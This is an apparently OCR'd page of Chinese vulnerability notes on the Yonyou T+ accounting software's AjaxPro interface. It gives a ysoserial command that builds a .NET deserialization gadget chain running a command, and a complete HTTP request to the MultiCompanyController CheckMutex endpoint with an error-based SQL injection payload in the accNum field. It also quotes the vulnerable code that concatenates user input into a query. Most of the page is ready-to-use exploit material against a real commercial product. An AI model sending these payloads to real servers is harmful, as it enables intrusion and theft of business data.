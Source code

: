 AjaxPro要求参数类型为`(object xx)`，用的链条生成方式

```
ysoserial.exe -g ObjectDataProvider -f JavaScriptSerializer -c "calc" -raw
```



### MultiCompanyController SQL注入漏洞

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: your-ip
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
 
{"accNum": "3' AND 5227 IN (SELECT (CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (5227=5227) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(107)+CHAR(120)+CHAR(113)))-- NCab", "functionTag": "SYS0104", "url": ""}
```

核心代码

```
if (functionTag == "SYS0104")
    service.CheckUserFunction(accNum);
    service.RegisterFunction(url, accNum, functionTag);

DataRow[] dataRows = UseFunctionLogCacheManager.GetDataRows("userid <> '" + userid + "' and Acaa_Num = '" + accountNum + "' and  Version = '" + version.ToString() + "'", "begintime");
```


